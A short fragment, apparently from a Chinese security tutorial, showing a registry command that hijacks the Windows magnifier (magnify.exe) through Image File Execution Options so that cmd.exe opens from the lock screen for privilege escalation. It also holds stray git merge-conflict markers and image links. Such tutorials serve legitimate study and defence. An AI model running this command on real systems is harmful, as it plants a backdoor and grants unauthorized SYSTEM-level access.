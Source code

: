 [![](assets/1710898702-929d065a288a146dc6237a3bf6ce3041.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095523-ebb1e1a4-e1a5-1.png)
=======
[![](assets/1710465355-3c03514f743f6d21a5690337c202d048.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095515-e6ba72ec-e1a5-1.png)

修改注册表映像劫持，将放大镜劫持为 cmd

```bash
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

[![](assets/1710465355-929d065a288a146dc6237a3bf6ce3041.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095523-ebb1e1a4-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

之后锁定计算机，利用放大镜进行提权

可以发现成功劫持到 cmd，看一下权限
